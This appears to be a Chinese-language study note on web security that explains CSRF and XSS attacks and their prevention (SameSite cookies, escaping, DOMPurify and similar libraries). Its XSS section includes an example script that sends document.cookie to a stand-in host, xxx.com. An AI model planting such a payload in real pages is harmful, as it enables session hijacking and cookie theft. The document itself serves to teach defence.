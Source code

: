 ```yaml
---
outline: deep
---
```

# Safe
## CSRF
- Cross-site request forgery 跨站请求伪造
- CSRF 的过程
  - 用户登录了 `a.com` ，有了 cookie
  - 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
  - `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了
- CSRF 的预防
  - 严格的跨域请求限制
  - 为 cookie 设置 `SameSite` 不随跨域请求被发送
    - `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
    - SameSite=Strict Cookie 不能随着跳转链接跨站发送
    - SameSite=Lax 允许 GET/HEAD 等安全方法，但禁止 POST 跨站发送
  - 关键接口使用短信验证码等双重验证
## XSS
- Cross Site Scripting 跨站脚本攻击
- Xss 过程
  - 用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。
  - 该内容再显示时，这些代码也将会被执行，形成了攻击效果。
  ```html
  <!-- 例如用户提交的内容中有： -->
  <script>
      var img = document.createElement('img')
      img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
  </script>
  ```
- xss 预防：替换特殊字符（最简单的解决方式）
  ```js
  const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  ```
- 第三方工具
  - [DOMPurify](https://github.com/cure53/DOMPurify) HTML 清理(高)
  - [xss](https://jsxss.com/zh/index.html) XSS 过滤(中)
  - [escape-html](https://github.com/component/escape-html) HTML 转义(低)
- 现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
  - Vue `v-html`
  - React `dangerouslySetInnerHTML`
